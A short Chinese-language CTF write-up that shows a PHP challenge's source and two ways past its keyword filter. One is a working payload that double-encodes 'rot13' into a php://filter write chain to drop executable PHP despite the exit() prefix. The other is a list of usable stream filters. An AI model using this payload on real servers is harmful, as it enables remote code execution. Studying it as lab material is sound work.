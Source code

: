 ```php
<?php
//PHP 7.0.33 Apache/2.4.25
error_reporting(0);
$sandbox = '/var/www/html/' . md5($_SERVER['HTTP_X_REAL_IP']);
@mkdir($sandbox);
@chdir($sandbox);
highlight_file(__FILE__);
if(isset($_GET['content'])) {
    $content = $_GET['content'];
    if(preg_match('/iconv|UCS|UTF|rot|quoted|base64/i',$content))
         die('hacker');
    if(file_exists($content))
        require_once($content);
    echo $content;
    file_put_contents($content,'<?php exit();'.$content);
}
```

### 方法一

- 利用二次编码绕过

- ```
  content=php://filter/write=string.%7%32ot13|%3C?cuc%20cucvasb();?%3E/resource=drom.php
  ```





### 方法二

- 使用phpfuzz过滤器脚本看看哪些过滤器能用

- ```
  string.toupper
  string.tolower
  string.strip_tags
  zlib.deflate
  zlib.inflate
  bzip2.compress
  bzip2.decompress
  ASCII
  EUC-JP
  SJIS
  eucJP-win
  SJIS-win
  ISO-2022-JP
  ISO-2022-JP-MS
  CP932
  CP51932
  SJIS-mac
  SJIS-Mobile#DOCOMO
  SJIS-Mobile#KDDI
  SJIS-Mobile#SOFTBANK
  ISO-2022-JP-MOBILE#KDDI
  JIS
  JIS-ms
  CP50220
  CP50220raw
  CP50221
  CP50222
  ISO-8859-1
  ISO-8859-2
  ```